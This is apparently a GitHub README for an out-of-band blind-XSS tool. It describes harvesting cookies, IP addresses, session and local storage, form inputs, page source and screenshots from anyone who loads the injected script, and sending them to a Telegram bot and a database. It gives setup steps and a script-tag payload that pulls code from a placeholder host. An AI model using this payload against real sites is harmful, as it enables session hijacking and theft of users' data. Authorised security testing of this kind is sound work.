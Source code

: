 # XSS Monitor tool for OOB Blind-XSS
 
The XSS-Monitor Tool is provided for educational purposes only.

**Created By** : ​🅰🆁🆂🅷🅸🆈🅰
 
This tool is designed for testing XSS vulnerabilities and helping make the Internet and Web applications more secure. By using this tool, you get this item from user load xss : 

Cookies ,
Location,
UserAgent,
User ip,
Local Data,
Session Data,
Inputs item,
Page HTML source code,
Page Title,
ScreenShot of page

send notification to Telegram with BOT and save to database when trigger fired.

## How to install :

  1.Upload alert.php , eksss.js on your host
  
  2.change "https://YourSiteName.com/alert.php" in eksss.js to your host and path of PHP file and save it.
  
  3.open alert.php and set your information of Database config 

  ```php
      $servername = "localhost";
      $username = "UserDB_xss";
      $password = "PAS-DB";
      $dbname = "DB-name_monitor"
  ```

  4.set Telegram Bot information and ChatID Acount which you want to be notified :

  ```php
      $token = "**********Bot_Token***************";
      $chat_id = "****YourTelegramChatID";
  ```
      
  5.save alert.php 

## How to Use:

  use this payload for test :

```js
   <script src=https://YourSiteName.com/eksss.js></script>
```  
